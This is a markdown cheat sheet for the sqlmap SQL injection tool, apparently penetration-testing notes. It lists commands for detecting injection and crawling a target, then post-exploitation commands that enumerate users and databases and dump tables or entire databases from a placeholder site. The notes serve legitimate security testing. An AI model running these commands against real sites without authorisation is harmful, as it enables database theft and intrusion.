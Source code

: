 ## Scope 
Automatic SQL injection and database takeover tool.

SQLmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over-data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

## Source
https://github.com/sqlmapproject/sqlmap

Environment:  Python

## Installation
*Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

# Example Usages

### To get a list of basic options and switches
```
python sqlmap.py -h
```

### To get a list of all options and switches
```
python sqlmap.py -hh
```

### Vulnerability Finding

### ALL IN ONE
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
### Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

### Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

### Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

### Thread >> using multiple connections for faster results, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
### Risk >> harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

### Level >> test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

### Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

## Post Exploitation

### User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

### Getting the current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


### Getting tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

### Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

### Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

### Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

### Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```

